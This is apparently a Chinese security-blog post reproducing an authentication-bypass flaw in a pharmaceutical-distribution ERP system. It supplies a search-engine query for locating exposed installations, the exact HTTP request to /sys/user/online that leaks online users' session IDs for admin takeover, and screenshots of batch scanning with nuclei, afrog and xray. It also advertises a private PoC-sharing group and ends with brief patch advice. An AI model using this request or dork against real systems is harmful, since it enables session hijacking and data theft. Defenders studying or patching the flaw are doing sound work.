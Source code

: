 #  【漏洞复现】某时空社会化商业ERP系统 user/online 身份认证绕过漏洞   
Superhero  Nday Poc   2024-08-16 10:10  
  
**0x00 免责声明**  
  
内容仅用于学习交流自查使用，由于传播、利用本公众号所提供的  
POC信息及  
POC对应脚本  
而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号nday poc及作者不为此承担任何责任，一旦造成后果请自行承担！如文章有侵权烦请及时告知，我们会立即删除文章并致歉。谢谢！  
  
**0x01 产品简介**  
  
  
某空云社会化商业ERP（简称某空云ERP） ，该产品采用JAVA语言和Oracle数据库， 融合用友软件的先进管理理念，汇集各医药企业特色管理需求，通过规范各个流通环节从而提高企业竞争力、降低人员成本，最终实现全面服务于医药批发、零售连锁企业的信息化建设的目标，是一款全面贴合最新GSP要求的医药流通行业一站式管理系统。  
  
**0x02 漏洞概述**  
  
某时空社会化商业ERP系统 user/online 接口存在身份认证绕过漏洞，未授权的攻击者可利用漏洞url获取在线用户sessionid 导致用户信息泄露，并且切换网站session后可直接接管后台，造成信息泄露或恶意破坏，使系统处于极不安全状态。  
  
  
**0x03 搜索引擎**  
```
title="云时空社会化商业ERP系统"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKmVmsOvPG3q73gZ3NTLRUk5JFPeyQw5opdIOl9EOTQEYoCW6pqiaOibyVkdsXkiaXa6lcIL5wwjRcfw/640?wx_fmt=png&from=appmsg "")  
  
  
**0x04 漏洞复现**  
```
GET /sys/user/online HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKmVmsOvPG3q73gZ3NTLRUkud6ialqHiawsQJYOckdwjJEMUHRVajdaj5lnwgq5XuPr8r9EQ3hph6mg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKmVmsOvPG3q73gZ3NTLRUkkicrvPFlbMUWwiasEibHXFFO16uECm2E8PprNZYjpyRbFtstxTPNU17DA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKmVmsOvPG3q73gZ3NTLRUkbmUdpO1arEIY2t1c7psRN9F2RBKXehAWrDRASoHPRNbuU2n8Z0bTuw/640?wx_fmt=png&from=appmsg "")  
  
**0x05 工具批量**  
  
nuclei  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKmVmsOvPG3q73gZ3NTLRUklEAMuPxectpr3W061SCN4kXJibqOOrW6bU0ssBjicphEoS8eZ2rcu5xw/640?wx_fmt=png&from=appmsg "")  
  
afrog  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKmVmsOvPG3q73gZ3NTLRUkN69QmSzOIonEbGnLUjGm4kv90hFpGAxAurkoCFWgjPn5ibsDZE98cjQ/640?wx_fmt=png&from=appmsg "")  
  
xray  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKmVmsOvPG3q73gZ3NTLRUku1QzqlQianhVxpcaFKQwgfia9b2iaBDbT60XOkgp51yl5AiawuY69dicibAA/640?wx_fmt=png&from=appmsg "")  
  
POC脚本获取  
  
请使用VX扫一扫加入内部  
POC脚本分享圈子  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwI0X77l5WtnpfTexA6RwHXSbf1x3ZyT3bhcbWzRoFLyAgHkSMk9yGaZK5FDGcSCQp9ibPcicxHXIOcg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&retryload=2&tp=webp "")  
  
  
**0x06 修复建议**  
  
1、关闭互联网暴露面或接口设置访问权限  
  
2、厂商已发布了漏洞修复程序，请及时关注更新：  
  
http://www.ysk360.com/  
  
  

